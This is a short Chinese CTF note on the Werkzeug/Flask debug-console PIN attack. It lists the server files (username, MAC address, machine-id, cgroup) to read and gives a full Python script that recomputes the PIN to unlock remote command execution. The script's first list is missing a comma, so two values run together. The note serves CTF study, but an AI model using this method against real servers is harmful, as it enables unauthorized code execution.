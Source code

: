 tags:: CTF/RCE, werkzeug

- https://ctf.anzu.link/pages/204626/
- # 原理
	- 读取到某些敏感信息后，利用敏感信息算出和目标同样的PIN, 然后使用PIN控制flask执行命令
	- 有时没开debug模式，也可以通过`/console`看到终端
	- 貌似对werkzeug通用
- # PIN生成方法
	- PIN生成代码在`/home/user/.local/lib/python3.10/site-packages/werkzeug/debug/__init__.py`这个文件内
	- 需要获取到`probably_public_bits`和`private_bits`两个数组内的内容
	- `probably_public_bits`
		- `[0]`: 用户名
		- `[1]`: modname, 不魔改的话就是`flask.app`
		- `[2]`: `getattr(app, '__name__', getattr(app.__class__, '__name__'))`的运行结果，一般是`Flask`
		- `[3]`: app类的存储目录
			- 类似于`/home/user/.local/lib/python3.10/site-packages/flask/app.py`
	- `private_bits`
		- `[0]`: 十进制表示的服务器MAC
			- 可以用`int("00:16:3e:5e:6c:00".replace(":", ""), 16)`转换
			- 一般在对应网卡（如 eth0）的文件中：`/sys/class/net/eth0/address`
		- `[1]`: 基于两个文件内容生成，各个OS的生成方法不同，以下是Linux的生成方法：
			- 获取"/etc/machine-id"或"/proc/sys/kernel/random/boot_id"的内容
			- 获取/proc/self/cgroup的内容，然后**把每一行**按照`/`分段，获取最后一段并拼接
			- 拼接上面获得的两段bytes
- # PIN生成脚本
	- 新版flask的生成方法和老版不一样
	- ```python
	  import hashlib
	  from itertools import chain
	  
	  rv, num = None, None
	  
	  probably_public_bits = [
	      'user'# 用户名
	      'flask.app',# modname
	      'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	      '/home/user/.local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
	  ]
	  
	  private_bits = [
	      '95535655936',# str(uuid.getnode()),  /sys/class/net/ens33/address
	      '2c2781498c424bcf86b4d5aa3c0d27faapp-glib-codium-1239.scope'# /etc/machine-id的内容+/proc/self/cgroup的结尾
	  ]
	  
	  h = hashlib.sha1()
	  for bit in chain(probably_public_bits, private_bits):
	      if not bit:
	          continue
	      if isinstance(bit, str):
	          bit = bit.encode("utf-8")
	      h.update(bit)
	  h.update(b"cookiesalt")
	  
	  cookie_name = f"__wzd{h.hexdigest()[:20]}"
	  
	  if num is None:
	      h.update(b"pinsalt")
	      num = f"{int(h.hexdigest(), 16):09d}"[:9]
	  
	  if rv is None:
	      for group_size in 5, 4, 3:
	          if len(num) % group_size == 0:
	              rv = "-".join(
	                  num[x : x + group_size].rjust(group_size, "0")
	                  for x in range(0, len(num), group_size)
	              )
	              break
	      else:
	          rv = num
	  
	  print(rv)
	  
	  ```